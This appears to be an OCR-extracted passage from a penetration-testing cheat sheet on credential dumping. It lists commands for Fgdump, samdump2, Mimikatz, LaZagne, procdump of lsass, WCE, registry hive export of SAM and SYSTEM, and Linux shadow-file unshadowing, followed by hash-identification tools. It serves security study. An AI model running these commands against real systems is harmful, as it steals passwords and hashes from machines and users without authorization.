                 -   Fgdump.exe --h 192.168.1.4 --u adminuser

                    -   dump remote pc using this user

                -   Fgdump.exe --h 127.0.0.1 --u adminuser

                    -   dump local pc using this user

            -   **Sandump2**

                -   samdump2 SYSTEM SAM -o sam.txt

            -   **Mimikatz**

                -    privilege::debug 

                -   Log

                -   sekurlsa::logonpasswords

            -   **Lazagne**

                -   Lazagne.exe \[module\]

                -   Lazagne.exe all

            -   **Procdump**

                -   procdump.exe -accepteula -ma lsass.exe lsass.dmp

                -   mimikatz -\> privilege::debug 

                -   mimikatz -\> sekurlsa::minidump lsass.dmp

                -   mimikatz -\> sekurlsa::logonPasswords

            -   **WCE.exe**

                -   wce.exe -l -\> dump login hashes.

                -   wce.exe -w -\> dump clear text login passwords.

            -   **From registry without tools**

                -   C:\\\> reg.exe save hklm\\sam
                    c:\\windows\\temp\\sam.save

                -   C:\\\> reg.exe save hklm\\security
                    c:\\windows\\temp\\security.save

                -   C:\\\> reg.exe save hklm\\system
                    c:\\windows\\temp\\system.save

            -   **Responder**

            -   **Cat /etc/shadow (in linux)**

                -   unshadow passwd.txt shadow.txt \> unshadowed.txt

        -   **Identify the Hashes**

            -   Hashid \[hash\]

            -   Hash-identifier
